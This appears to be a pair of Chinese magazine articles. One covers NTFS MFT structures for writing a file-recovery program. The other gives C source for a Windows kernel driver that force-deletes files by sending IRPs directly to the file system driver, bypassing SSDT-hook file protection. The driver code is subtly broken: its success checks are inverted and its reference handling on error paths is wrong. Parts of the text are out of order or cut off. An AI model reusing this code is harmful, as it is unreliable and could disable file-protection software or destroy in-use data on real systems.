从图中可知，在实现数据恢复程序设计编码时，需要判断MFT表项是否存在两个30属性。若存在，则直接跳过首个30属性，分析后面的30属性，这样才可完整地获取文件或目录的文件名。

## ③ 80属性分析

80属性即$DATA属性，用于存放文件真实数据或文件数据存放的物理偏移位置。80属性可为常驻属性，也可以是非常驻属性，取决于文件数据大小。当文件数据很小，能直接在MFT中存放时，则为常驻属性；反之，则为非常驻属性。常驻80属性中，属性头偏移10H~13H处的值为文件数据所占字节数，偏移14H~17H处的值为文件数据存储的起始位置，故读取这两个偏移处的值即可直接获取文件的真实内容。需要特别注意的是：当文件数据某一位置x处对应的值为0x00H时，则需要将MFT头部偏移32H、33H这两个字节的值分别填充x-1与x位置的值。

非常驻80属性：当文件很大时，则会在属性值位置记录文件数据的簇运行列表（Data Runs list）。这个列表直接反映了文件数据是否离散存储、占用的簇数及其簇的物理偏移位置。非常驻属性头偏移20H处的值记录了数据运行（Data Runs）的偏移地址，偏移04H处则记录了属性的总长度，故将偏移04H处的值减去偏移20H处的值即可得到数据运行列表所占字节数。下面给出数据运行列表的一般结构，如图2所示。

数据运行列表中的第1个字节如31，其低4位表示运行所占的簇数在此运行中占用的字节数，高4位表示运行的起始簇号在此运行中所占字节数。若存在多个数据运行，则下一个运行的起始簇号是相对上一个运行的首簇号来计算的。但需要澄清的是，每个簇运行中的运行起始簇是如何相对上一个簇运行的起始簇号，并不是一种简单的相对偏移关系，实际中数据运行核心存储原理需要分为多种情况来考虑。

- Normal, Fragmented（正常的碎片文件）
- Normal, Scrambled（正常的零乱文件）
- Sparse, Unfragmented（稀疏的正常文件）
- Compressed, Unfragmented（压缩的正常文件）

笔者这里只举一个特例进行分析。下面的数据运行为正常的碎片文件，数据运行列表中各运行的分析结果如表所示。

该属性的结构与80属性的非常驻属性结构完全相同。下面给出一个基本的根目录MFT表的结构，如图3所示。

| Num | Group | Header Length size | Header Offset size | Data Length | Data Offset |
|---|---|---|---|---|---|
| 1 | 11 30 60 | 1 byte | 1 byte | 0x30 (1 byte) | 0x60 (1 byte) |
| 2 | 21 10 00 01 | 1 byte | 2 bytes | 0x10 | 0x160（0x100 相对 0x60） |
| 3 | 11 20 E0 | 1 byte | 1 byte | 0x20 | 0x140（-0x20 相对 0x160） |
| 4 | 00 |  |  | End |  |

## 3．树形目录结构

当创建一个目录文件时，NTFS必须对目录中的文件名进行索引。目录的MFT表项会将其目录下的文件名和子目录名进行排序，并保存到90属性中。

在第3行中，数据的起始簇偏移结果为何会是0x140？如果直接是相对上一个簇运行的偏移，则其值应该为0x100+0xE0=0x1E0。实际上，相对偏移是建立在一个取模运算之后，具体解析为：设数据运行中文件的起始簇号为N，则若N占1个字节且N>0x80H，则取负值；N=(N mod 0x80)-0x80。若N占2个字节且N>0x8000，则N=(N mod 0x8000)-0x8000。若N占3个字节且N>0x800000，则N=(N mod 0x800000)-0x800000；依次类推，则可以准确地解析出每个簇运行的起始簇偏移。

## ④ 90属性分析

90类型属性，即$INDEX_ROOT，为索引根属性。该属性是实现NTFS的B+树索引的根节点，包括标准属性头、索引根和多个索引项。只有目录文件才拥有90属性。紧跟索引根的是索引头信息，偏移00H处为第1个索引项的偏移（注：此偏移相对此位置开始）。在程序设计中，获取第1个索引项的偏移值后，可直接转向索引项。在每个索引项中，偏移00H、10H处分别记录了此文件的MFT参考号及其父目录的MFT参考号；偏移08H处则记录了每个索引项的大小，故可通过索引项大小转向下一个索引项，再结合属性头偏移04H处描述的90属性总长度，即可获取该目录下的所有文件及子目录的MFT参考号。

但当目录下包含大量文件及子目录，导致MFT表项中不能够全部存放时，就会有两个附加属性出现，即索引分配属性和索引位图属性。索引分配属性是用来描述B+树目录的子节点的；索引位图属性描述的是索引块的使用情况。引入索引分配属性，即$INDEX_ALLOCATION属性，也称为A0属性。A0属性实际上存储了簇运行列表（Runs list），其结构与80属性中的数据运行结构完全一样，描述了运行簇的起始偏移及簇数。通过这两处的值即可定位到存储在大目录下的文件及目录的物理位置，即索引缓冲区（INDX结构）。

索引缓冲区大小固定为4KB，采用B+树结构实现，极大地提高了查找文件或目录项时所需的磁盘访问次数。B+树索引由两部分组成，上部为索引，下部为顺序集，数据内容记录均在叶子节点，索引仅起路标作用。下面对INDX结构中主要的偏移进行分析。索引结构中每个索引记录由一个标准的索引头和一组包含索引关键词与索引数据的块组成。索引记录的大小一般为4KB，其大小在BPB结构体成员BPB_ClusPerIndexBloc中定义。标准索引头结构前4个字节总为“INDX”，偏移18H~1BH记录了第1个索引项在INDX结构中的偏移，偏移1CH~1FH则记录了此索引结构的总大小，故在程序设计中可直接转移到索引项中获取INDX结构中的所有索引子项。在每个索引子项中，记录了文件及其父的MFT参考号、文件的MAC日期与时间、文件名等相关信息，前3项在索引项中的具体偏移位置分别为00H~07H、10H~17H、18H~30H。通过文件的MFT参考号，可以找到自己在MFT区域中的MFT表项，根据10属性、30属性、80属性读取文件的重要信息；若为目录文件，则需要读取90属性甚至A0属性，从而定位文件的数据信息存储在分区中的物理位置，或目录下文件及其子目录在分区中的物理存储位置。

实际上，NTFS的目录树结构也是倒型目录树结构，依旧是通过BPB结构体来得到目录区的存放位置，从而读取目录中的文件及其子目录，再借助各自的MFT参考号转向MFT表项来获取文件数据或者目录下文件及子目录的物理存储位置。与FAT文件系统对比分析发现，FAT文件系统是通过目录中的首簇号映射到FAT表，通过FAT表得到文件数据的各簇号或者目录下文件及子目录的簇号；而NTFS系统则是借助MFT表来定位文件或目录的物理存放位置。只不过FAT表项需要多次映射，而MFT表项一次即可完成全部映射，它们的目录树构建对比如图4（FAT）和图5（NTFS）所示。

实验：对文件删除前后，其对应的MFT表项各属性值及父目录MFT表项相关属性值的变化进行对比分析，为数据恢复程序设计实现小节做铺垫。为了更清楚地理解文件删除后的MFT变化，下面分两种情况考虑：一是将目录及目录下的文件及子目录一并删除，二是只删除目录下的文件。

目录和目录下的文件及子目录一并删除。在NTFS卷分区中存放了一个名为Experiment的目录，Experiment目录下存放了5个文件，分别命名为abc.txt、bde.pdf、fgh.doc、klm.ppt及pku.jpg。Experiment目录删除前后，其相应的MFT表项前后变化如图6和图7所示。

图4  
图5  
图6  
图7

## NTFS下文件删除前后MFT表对比分析

在NTFS卷中删除一个文件时，系统至少在3个地方做了改变。其一，文件的MFT头偏移16H处的字节值；其二，父目录MFT表项中的90属性或者A0属性值；其三，位图元数据文件$Bitmap中把已删除文件所占簇数对应的位置清零，以便在新文件没有足够新空间时可直接覆盖已删除文件所占的磁盘空间。笔者下面将在一个新的NTFS分区中做实验。

因为图片大小的原因，这里给出了90属性全部内容。需要了解整个MFT表项的变化，可以借助WinHex软件自己做实验，比对删除前后的整个MFT。从上图中可以看出，Experiment目录中所有子文件的索引项都在90属性中存储着，那么正常的目录树构建就可直接从根目录区开始不断深层次地寻找子目录下的所有文件，最后构建成一棵倒形目录树，具体操作流程见图5。

观察图7中的90属性，物理位置0x0C00079C0处的值为第1个索引子项的偏移，其值为0x30，而0x0C00079C0+0x30=0x0C00079F0。查看0x0C00079F0处的值，发现其值为0xFFFFFFFFH，表明90属性已经结束，故90属性下的所有索引子项均已删除。因为Experiment目录下只有5个文件，故其MFT表项中没有涉及索引分配属性，即A0属性。那么当Experiment目录下存有大量文件及子目录时，A0属性的簇运行是否会随着目录的删除而被清空呢？笔者通过大量实验发现，在一般情况下是不会清空的，除非此MFT表项已经被清空。

针对只删除目录下文件的情况，同样其90属性下描述此文件的索引子项内容也会被清空，这里不再举例说明。

总之，在NTFS卷中，虽然文件被删除了，但其MFT表项并没有清空。不过删除文件的同时，MFT被清空的可能性也存在。在极端情况下，如系统分配给MFT的空间已经接近用完时，系统在删除文件的同时也会将MFT清空，并直接用其他文件的MFT覆盖该文件的MFT。一般情况下，只要MFT表项没有清空，文件MFT表项中80属性值就不会清空，也就是说文件数据还存在磁盘上，故文件数据就存在恢复的可能。

#### 数据恢复程序设计关键技术分析

每个目录及文件都存在至少一个MFT表项，那么只要遍历所有MFT表项，读取它们所包含的重要属性，即可判断文件是否删除并获取文件名、文件的数据簇运行等信息。那么如何遍历MFT表项呢？是不是从第1个非元文件开始依次遍历MFT表项，直到读取的起始位置不再表示FILE0为止呢？实际上，笔者通过实验发现，NTFS卷在很久没有进行磁盘整理的情况下，经常会出现MFT碎片，即存在物理上不连续的多个MFT子区域，因而连续遍历MFT表项是不可行的。有人提出了一种通过遍历整个分区来查找不连续多个MFT区域的方法，但此方法需要耗费大量扫描时间，当分区很大时，其扫描时间之长几乎是用户不可接受的。

深入分析MFT区域中的头几个元文件不难发现，$MFT表项中其实已经存放了所有文件MFT表项的起始扇区号及其簇号，采用的存储方式为80属性中数据运行的结构。通过数据运行结构列表即可判断MFT是否存在碎片，如图8所示。

图8

从图8可知，分区存在MFT碎片，因为80属性下有两个数据运行结构，分别为32 DC 07 00 00 0C和32 30 01 AE 5B 0E。由前一个运行结构可知，第1个MFT区域的起始簇号为0C0000H=786432，正好就是图8最左边的首个簇号。故只需读取元文件$MFT表项中的80属性，解析出数据运行列表中每个结构的起始簇号及簇数，就可快速遍历完整NTFS卷下所有的MFT表项。

构建已删除文件的目录树。通过遍历NTFS卷下所有MFT表项，就可很清楚地判断文件是否删除及文件名、文件数据起始簇号、簇数等。那么如何将已删除文件及目录组合起来呢？笔者采用的方法是从目录树的底部开始逐渐向上构建整个目录树，算法基本流程如下：

- 1. 读取$MFT表项中80属性下的簇运行列表，获取每个簇运行结构的起始簇号与簇数，再根据首簇号和簇数，循环遍历NTFS卷下每个簇运行结构中所有的MFT表项。
- 2. 读取MFT表头，判断文件及目录是否删除。若目录及文件未删除，则直接忽略此MFT表项，转下一个表项；不然，则new一个新节点结构，获取表项中30属性下的文件名或目录名及父目录的MFT参考号。
- 3. 若父目录的MFT参考号不是0x05（即根目录下的文件或子目录），则转步骤4；然后再判断此MFT对应的是文件还是目录。若为非目录文件，则读取80属性值，获取文件数据或文件数据的首簇号及簇数，存储到新节点结构体中，然后将此节点插入到目录树中；若为目录文件，则直接将此节点插入到目录树中。
- 4. 根据父目录的MFT参考号，读取每个父目录的MFT参考号，获取目录文件名，然后再调用搜索函数，在已部分构建的目录树中寻找此文件是否在目录树中。若没有搜索到，则new一个新节点，并将文件名、文件及父目录的MFT参考号等分别保存在该节点中，再判断此目录是否为根目录。若非，则保存此节点到目录树结构体的Vector数组中，然后递归调用，转步骤4继续读取其父目录的MFT号；若为根目录，则将此节点插入到目录树合适节点下；若搜索到了，则直接返回。

这样，就可以全部获取到NTFS卷分区中所有已删除文件及目录，并构建好整个目录树结构。下面用图解的方式来表示目录树的构建算法，如图9所示。

写着写着就这么多了。笔者也很想简单描述，但数据恢复技术难点就在于理解这些核心技术原理，不能再简略了。阅读到这里，读者可能在想，扫描出来的文件如何插入？采用什么树形结构来实现？这些在第1期上已经给出了解析。OK，核心技术就这么多了。读者有什么新的想法，欢迎与我交流。

图9

#### 小结

数据恢复技术实现是一个难点，但只要深入了解其内部结构原理，再加上一定的C++编程经验，相信都能编写出自己的数据恢复软件。有些读者总是首先查看文章是否有详细代码，其实当你具有一定的编程经验后，你肯定会认为核心技术原理才是关键。我实现的所有核心代码请参见2009年第1期的文章。

前置知识：VC

关键词：编程、驱动、文件反删除

### 内核级驱动对抗

Hook ZwSetInformationFile  
反删除技术

文／图 小小彬

文件删除与保护一直都是大家谈论的焦点问题。针对如何保护磁盘上属于自己的专有文件，已经存在一些现成技术，比如信息隐藏技术。在2009年第3期上，笔者详细谈论过有关基于有序规则的信息隐藏与加密技术，利用一些常见图片、视频等作为载体将文件嵌入其中，达到掩人耳目的目的。这种方式如果在图像鲁棒性、文件规则健壮性、加密算法有效性上能够很好地满足，是可以很好地实现文件保护的。下面论述的是文件在没有隐藏的情况下，如何彻底清除文件的相关技术问题，并设计一种内核级驱动实现文件永久删除技术。

在2009年第2期上，我看到Aosemp写了一篇程序保护之文件保护技术，阅读了一番。文中采用Hook ZwSetInformationFile技术实现文件保护技术，这实际上就是Ring3级下修改SSDT表中的Native API ZwSetInformationFile技术。其实早在2008年第1期上，夜枫的文章《内核方法实现进程保护》就已经介绍过这种技术，只不过是实现进程保护，Hook了不同的API函数而已，同样也是修改SSDT表的操作。当然，这种技术是初学者的必经之路，具有一定启发性。我看到这篇文章，突然想起了冰刃（IceSword）软件，试了试冰刃能否对抗Hook ZwSetInformationFile，果真不如所料，在冰刃面前，Hook ZwSetInformationFile技术毫无作用。

难道冰刃又对这个Native API进行了Inline Hook，正如对NtOpenProcess和NtTerminateProcess一样吗？我采用WinDbg测试了一番，下面是运行冰刃前后NtSetInformationFile的相关代码。

```text
// 运行前
lkd> u NtSetInformationFile
nt!NtSetInformationFile:
8057ae38 6a64 push 64h
8057ae3a 6808a44d80 push offset ...
8057ae3f e8ac0ffcff call ...
8057ae44 33f6 xor esi,esi
8057ae46 33ff xor edi,edi

// 运行冰刃后
lkd> u NtSetInformationFile
nt!NtSetInformationFile:
8057ae38 6a64 push 64h
8057ae3a 6808a44d80 push offset ...
8057ae3f e8ac0ffcff call ...
8057ae44 33f6 xor esi,esi
8057ae46 33ff xor edi,edi
```

从上面的两段代码可以看出，并不像Inline Hook NtOpenProcess那样对NtSetInformationFile进行了JMP操作，从而转向自己定义的函数体。那么冰刃是如何实现玩转文件删除操作的呢？实际上就是采用了内核级驱动技术。下面我们就开始正式论述内核级驱动技术实现文件删除。

#### 原理分析

本文的目的是需要强制性删除任何指定文件，那么首先必须考虑文件链接的情况，即当文件正在被其他进程使用、存在一个或多个链接时，如何清除这些链接。对操作系统原理有一定了解的读者应该知道，每当用户请求文件读、写等I/O操作时，系统会借助I/O管理器创建一个文件对象FILE_OBJECT（注：此对象不专属于某个指定进程或线程），然后借助Fast I/O向NT Cache管理器发送一个IRP请求此文件。NT Cache管理器则会在高速系统缓存中寻找此文件，若找到，则直接返回此文件；不然，则会产生缺页中断，借助虚拟内存管理器向FSD发送IRP请求，要求FSD通过磁盘驱动找到指定文件，然后依次返回。一旦发生此种情况，系统会借助虚拟内存管理器初始化FILE_OBJECT中的结构体SECTION_OBJECT_POINTERS，使文件缓存在Cache中。显然，如果文件正被使用，此结构体必然已经初始化了，因为其保存了与文件流相关的文件映射和缓存等相关信息。

SECTION_OBJECT_POINTERS结构类似于文件控制块FCB，不论有多少个用户请求打开同一个文件，SECTION_OBJECT_POINTERS结构体只会初始化一次，也就是说所有的FILE_OBJECT都会指向同一个存放SECTION_OBJECT_POINTERS的内存地址。下面我们分析一下此结构体。

```c
typedef struct _SECTION_OBJECT_POINTERS{
    PVOID DataSectionObject;
    PVOID SharedCacheMap;
    PVOID ImageSectionObject;
} SECTION_OBJECT_POINTERS;
```

参数DataSectionObject：指向一个内部数据结构的指针，此结构表示由文件流创建的数据区对象，这个指针由虚拟内存管理器操作使用。这个域的值会在指定文件被Caching之后初始化，即为有效值。

参数SharedCacheMap：Cache映射用于反映特定数据流的映射轨迹。

参数ImageSectionObject：一个私有数据结构的内存地址。文件刚被创建时，或者文件不再被任一用户使用时，这些值必须初始化为……NULL：文件创建后，FSD 并不会立即初始化 Caching，除非此文件发生 I/O 读、写等操作。而在 SECTION_OBJECT_POINTERS 结构体的参数说明中已经分析过，文件必须发生 Caching 操作，此结构体的值才会初始化为有效值。

通过上面的分析，我们应该知道这个事实：SECTION_OBJECT_POINTERS 结构体与文件是否存在多个链接是直接相关的。只要将它的成员变量置为 NULL，即可断掉所有链接。具体分析读者可以参考 Rajeev Nagar 的《Windows NT File System Internals》中的 The NT Cache Manager 等相关章节。

好了，分析了如何断掉指定文件的链接后，现在开始分析如何向 FSD 发送文件删除 IRP 了。对文件的所有操作都发生在 ZwSetInformationFile 上，这个 API 中就存有一个文件信息级别 FileInformationClass 成员，自定义的设备驱动可以定义它的级别，这里只需要定义为 FileDispositionInformation，并设置它的成员变量 DeleteFile 为 TRUE 即可。当然，本文并不是通过修改 ZwSetInformationFile 实现的，否则又属于 Ring3 级操作了。先向 FSD 发送一个 IRP，即 IRP_MJ_SET_INFORMATION，在 FSD 层修改文件的属性信息，发送删除命令，再交给底层驱动执行即可。

那是不是会存在一个文件名向文件对象转换的函数呢？然后又根据文件对象转换到文件设备对象呢？答案是肯定的，在 DDK 中存在这样一个函数 ObReferenceObjectByHandle，此函数可以将文件句柄转换为文件对象，再通过函数 IoGetRelatedDeviceObject 得到此文件对应的设备对象。这两个函数的介绍这里就不展开了，读者可以自行查阅 DDK 文档。

这里主要分析一下 IRP 的分发问题。现假设某过滤驱动的分层结构如下：

- 1，FFLDO
- 2，FSD
- 3，PDO

当调用 IoAllocateIrp 后，新产生的 IRP 的 StackCount 只能是 2，因为 FFLDO 下还存在两个驱动，但此时的堆栈单元却是 StackCount+1，即 newIrp 的 StackCount=2，CurrentLocation=3。那么何时修改堆栈单元的值呢？其实当我们调用 IoCallDriver 函数向下传递 IRP 时，IoCallDriver 函数内部已经调用了类似 IoSetNextIrpStackLocation() 的操作来调整 CurrentLocation 的索引了，故我们在调用 IoCallDriver 函数时必须先初始化 FSD 的驱动。获取下层驱动的 I/O 堆栈单元的函数为 IoGetNextIrpStackLocation，此时我们可以通过 I/O 堆栈单元 IO_STACK_LOCATION 结构体来设置删除信号，包括向底层发送 IRP_MJ_SET_INFORMATION 信号和进行针对此信号的相关设置。

#### 逆向思维分析

我们还是采用逆向思维来分析，接下来需要做些什么，如何利用前面的原理分析。首先我们需要向 FSD 发送 IRP_MJ_SET_INFORMATION 信号，这是已经确定的。向底层驱动发送 IRP 的函数有 4 个，这里我们采用带参数较少的 IoAllocateIrp 函数，其第 1 个参数为 I/O 堆栈的大小，在不知道底层存在多少层驱动的情况下，一般可直接设置为文件对应的设备堆栈大小。

这里就引出了文件设备对象概念。那么如何得到文件设备对象呢？可能有一定驱动开发经验的读者会想到函数 IoGetDeviceObjectPointer。此函数调用后，可以直接获得文件对象、文件设备对象两个属性值，这是最好不过的了。但是此函数却需要一个设备名参数，而我们已知的只有文件名。思考了很久，也很难找到如何将文件名转换为设备名，这条路就断了。

```c
// Parameters for IRP_MJ_SET_INFORMATION
struct {
    ULONG Length;
    FILE_INFORMATION_CLASS POINTER_ALIGNMENT FileInformationClass;
    PFILE_OBJECT FileObject;
    union {
        struct {
            BOOLEAN ReplaceIfExists;
            BOOLEAN AdvanceOnly;
        };
        ULONG ClusterCount;
        HANDLE DeleteHandle;
    } SetFile;
};
```

这里需要设置文件信息的级别为 FileDispositionInformation，同时将文件对象结构体中的成员变量 SECTION_OBJECT_POINTERS 的相应值全部置为 NULL，断掉所有的链接即可。

#### 代码分析

下面通过代码，详细地分析实现的各个细节，并给出一定的注释与分析。

```c
#include <ntddk.h>
#define NT_DEVICE_NAME L"\\Device\\DeleteFile"
#define NT_DOSDEVICE_NAME L"\\DosDevices\\DeleteFile"

// 函数说明：获取指定文件的句柄
HANDLE NTAPI GetFileHandle(IN PWCHAR szFileName) {
    NTSTATUS ntstatus = STATUS_SUCCESS;
    UNICODE_STRING UnicFileName;
    OBJECT_ATTRIBUTES ObjectAttri;
    HANDLE hFile;
    IO_STATUS_BLOCK IoStatusBk;

    RtlInitUnicodeString(&UnicFileName, szFileName);
    InitializeObjectAttributes(&ObjectAttri, &UnicFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    ntstatus = IoCreateFile(&hFile, FILE_READ_ATTRIBUTES, &ObjectAttri, &IoStatusBk, 0,
                            FILE_ATTRIBUTE_NORMAL, FILE_SHARE_DELETE, FILE_OPEN, 0, NULL, 0,
                            CreateFileTypeNone, NULL, IO_NO_PARAMETER_CHECKING);

    if (!NT_SUCCESS(ntstatus)) {
        ZwClose(hFile);
        KdPrint(("IoCreateFile Error!"));
        return NULL;
    }
    return hFile;
}

// 函数说明：清除文件相关属性
NTSTATUS NTAPI ClearFileAttri(IN HANDLE hFile) {
    NTSTATUS ntstatus = STATUS_SUCCESS;
    PFILE_OBJECT pFileObject;
    PDEVICE_OBJECT pDeviceObject;
    PIRP pIrp;
    KEVENT kEvent;
    FILE_BASIC_INFORMATION FileBaseInfor;
    IO_STATUS_BLOCK IoStatus;
    PIO_STACK_LOCATION pIrpSt;

    ntstatus = ObReferenceObjectByHandle(hFile, DELETE, *IoFileObjectType, KernelMode, (PVOID*)&pFileObject, NULL);
    if (!NT_SUCCESS(ntstatus)) {
        ObReferenceObject(pFileObject);
        KdPrint(("StripFileAttributes ObReferenceObjectByHandle Error!"));
        return ntstatus;
    }

    // 已知文件对象句柄，映射到其对应的文件设备对象句柄
    pDeviceObject = IoGetRelatedDeviceObject(pFileObject);
    pIrp = IoAllocateIrp(pDeviceObject->StackSize, TRUE);
    if (pIrp == NULL) {
        ObReferenceObject(pFileObject);
        KdPrint(("StripFileAttributes IoAllocateIrp Error"));
        return STATUS_UNSUCCESSFUL;
    }

    // 采用 IRP 同步事件行为，设置同步事件
    KeInitializeEvent(&kEvent, SynchronizationEvent, FALSE);
    RtlZeroMemory(&FileBaseInfor, sizeof(FILE_BASIC_INFORMATION));
    FileBaseInfor.FileAttributes = FILE_ATTRIBUTE_NORMAL;

    pIrp->AssociatedIrp.SystemBuffer = &FileBaseInfor;
    pIrp->UserEvent = &kEvent;
    pIrp->UserIosb = &IoStatus;
    pIrp->Tail.Overlay.Thread = PsGetCurrentThread();
    pIrp->Tail.Overlay.OriginalFileObject = pFileObject;
    pIrp->RequestorMode = KernelMode;

    // 获取下一个分层驱动的 I/O 堆栈，并设置此 I/O 堆栈相关信息
    pIrpSt = IoGetNextIrpStackLocation(pIrp);
    pIrpSt->MajorFunction = IRP_MJ_SET_INFORMATION;
    pIrpSt->DeviceObject = pDeviceObject;
    pIrpSt->FileObject = pFileObject;

    // 修改由 IRP_MJ_SET_INFORMATION 引发的结构体 SetFile 相关成员
    pIrpSt->Parameters.SetFile.Length = sizeof(FILE_BASIC_INFORMATION);
    pIrpSt->Parameters.SetFile.FileObject = pFileObject;
    pIrpSt->Parameters.SetFile.FileInformationClass = FileBasicInformation;

    // 注册一个 IRP 完成例程
    IoSetCompletionRoutine(pIrp, IoSetFileCompletion, NULL, TRUE, TRUE, TRUE);

    // 调用底层驱动，传递此 IRP
    ntstatus = IoCallDriver(pDeviceObject, pIrp);
    if (ntstatus == STATUS_PENDING) {
        // 等待同步对象
        ntstatus = KeWaitForSingleObject(&kEvent,
                                         Executive,
                                         KernelMode,
                                         TRUE,
                                         NULL);
        KdPrint(("STATUS_PENDING\n"));
    }

    ObDereferenceObject(pFileObject);
    return STATUS_SUCCESS;
}
```

IRP 的处理核心是每次向下传送 IRP 之前，记住提前初始化下层驱动的 I/O 堆栈。通俗来讲，就是将需要交给下层驱动做的事情交代清楚。好了，已经对指定文件的相关属性值进行了修改，完全剥开了文件的特殊属性，还原成了一个正常的文件。现在是需要将文件的所有链接进行清零及发送文件清除命令的时候了。显然，仍然需要创建一个新的 IRP，并向底层驱动发送此 IRP，交给底层驱动来完成这些操作了。

```c
// 函数说明：清除指定文件所对应的文件链，创建新的 IRP，设置文件删除指令，向下层驱动发送 IRP 指令，等待下层驱动返回 IRP 完成指令等。
NTSTATUS NTAPI CompelDeleteFile(IN HANDLE hFile) {
    NTSTATUS ntstatus = STATUS_SUCCESS;
    PFILE_OBJECT pFileObject;
    PDEVICE_OBJECT pDeviceObject;
    PIRP pIrp;
    KEVENT kFsEvent; // 设置文件删除
    FILE_DISPOSITION_INFORMATION FileInformation;
    IO_STATUS_BLOCK ioStatus;
    PIO_STACK_LOCATION pIrpSt;
    PSECTION_OBJECT_POINTERS pSectionObjectPointer;

    ntstatus = ObReferenceObjectByHandle(hFile,
                                         DELETE,
                                         *IoFileObjectType,
                                         KernelMode,
                                         (PVOID*)&pFileObject,
                                         NULL);
    if (!NT_SUCCESS(ntstatus)) {
        ObReferenceObject(pFileObject);
        KdPrint(("DeleteFileBySendIrp ObReferenceObjectByHandle Error!"));
        return ntstatus;
    }

    pDeviceObject = IoGetRelatedDeviceObject(pFileObject);
    pIrp = IoAllocateIrp(pDeviceObject->StackSize, TRUE);
    if (pIrp == NULL) {
        ObReferenceObject(pFileObject);
        KdPrint(("DeleteFileBySendIrp IoAllocateIrp Error"));
        return STATUS_UNSUCCESSFUL;
    }

    KeInitializeEvent(&kFsEvent, SynchronizationEvent, FALSE);
    FileInformation.DeleteFile = TRUE;

    // 置文件删除为有效状态
    // 向底层驱动传输删除指令信息
    pIrp->AssociatedIrp.SystemBuffer = &FileInformation;
    pIrp->UserEvent = &kFsEvent;
    pIrp->UserIosb = &ioStatus;
    pIrp->Tail.Overlay.Thread = PsGetCurrentThread();
    pIrp->Tail.Overlay.OriginalFileObject = pFileObject;
    pIrp->RequestorMode = KernelMode;
    pIrpSt = IoGetNextIrpStackLocation(pIrp);

    // 设置 I/O 堆栈的相关属性信息，包括设置文件信息级别中的文件删除指令 FileDispositionInformation
    pIrpSt->MajorFunction = IRP_MJ_SET_INFORMATION;
    pIrpSt->DeviceObject = pDeviceObject;
    pIrpSt->FileObject = pFileObject;
    pIrpSt->Parameters.SetFile.Length = sizeof(FILE_DISPOSITION_INFORMATION);
    pIrpSt->Parameters.SetFile.FileObject = pFileObject;
    pIrpSt->Parameters.SetFile.FileInformationClass = FileDispositionInformation;

    IoSetCompletionRoutine(pIrp, IoSetFileCompletion, NULL, TRUE, TRUE, TRUE);

    // 对文件对象中的 SectionObjectPointers 进行设置，清除所有与文件相关的链接
    pSectionObjectPointer = pFileObject->SectionObjectPointer;
    pSectionObjectPointer->DataSectionObject = 0;
    pSectionObjectPointer->ImageSectionObject = 0;

    ntstatus = IoCallDriver(pDeviceObject, pIrp);
    if (ntstatus == STATUS_PENDING) {
        // 等待同步对象
        ntstatus = KeWaitForSingleObject(&kFsEvent,
                                         Executive,
                                         KernelMode,
                                         TRUE,
                                         NULL);
        KdPrint(("STATUS_PENDING\n"));
    }

    ObDereferenceObject(pFileObject);
    KdPrint(("OK!"));
    return STATUS_SUCCESS;
}

// 驱动功能：驱动程序入口，设置指定的文件，并创建一个驱动设备，调用前面的两个功能函数，并卸载驱动等收尾工作
NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObj,
                     IN PUNICODE_STRING RegistryPath) {
    ...
}
```

```c
NTSTATUS ntstatus = STATUS_SUCCESS;
HANDLE hFile = NULL;
UNICODE_STRING ntDeviceName;
UNICODE_STRING ntDosDeviceName;
PDEVICE_OBJECT pDevice;
WCHAR szFileName[] = L"\\??\\G:\\DriverDevelop\\HookDelete\\test.txt";

RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);
ntstatus = IoCreateDevice(pDriverObj, 0, &ntDeviceName,
    FILE_DEVICE_UNKNOWN, 0, FALSE, &pDevice);
RtlInitUnicodeString(&ntDosDeviceName, NT_DOSDEVICE_NAME);
ntstatus = IoCreateSymbolicLink(&ntDosDeviceName, &ntDeviceName);

pDriverObj->MajorFunction[IRP_MJ_CREATE] = DispatchDevControl;
pDriverObj->MajorFunction[IRP_MJ_CLOSE] = DispatchDevControl;
pDriverObj->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDevControl;
pDriverObj->DriverUnload = DriverOnUnload;

hFile = GetFileHandle(szFileName);
ntstatus = ClearFileAttri(hFile);
if (NT_SUCCESS(ntstatus)) {
    ZwClose(hFile);
    KdPrint(("ForceDeleteFiles StripFileAttributes Error"));
    return ntstatus;
}

ntstatus = CompelDeleteFile(hFile);
if (NT_SUCCESS(ntstatus)) {
    ZwClose(hFile);
    KdPrint(("ForceDeleteFiles DeleteFileBySendIrp Error"));
    return ntstatus;
}

ZwClose(hFile);
return ntstatus;
```

单纯地修改SSDT表实现文件保护。通过Driver Monitor加载由Hook ZwSetInformation技术编写的驱动，运行后，当删除受保护的文件test.txt时，会弹出如图1所示的对话框。

